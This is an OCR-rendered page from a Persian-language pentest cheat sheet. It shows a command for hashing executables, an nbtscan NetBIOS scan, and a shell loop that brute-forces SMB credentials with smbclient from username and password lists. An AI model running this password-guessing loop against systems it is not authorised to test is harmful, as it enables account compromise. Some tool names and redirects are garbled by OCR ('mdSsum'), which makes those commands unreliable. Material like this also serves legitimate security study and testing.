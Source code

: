 ### هش

#### هش کلیه فایل های اجرایی در مسیر خاص:

```text
# find /<PATHNAME TO ENUMERATE> -type f -exec mdSsum
{} >> mdSsums.txt \;
# mdSdeep -rs /> mdSsums.txt
```

### NETBIOS

#### اسکن پایه ای nbtstat:

```text
nbtscan <IP ADDRESS OR RANGE>
```

### کلمه عبور ها

#### بررسی و حدس نام کاربری و کلمه عبور:

```text
while read line; do username=$line; while read
line; do smbclient -L <TARGET IP ADDRESS> -U
$username%$line -g -d 0; echo $username:$line;
done<<PASSWORDS>.txt;done<<USER NAMES>.txt
```

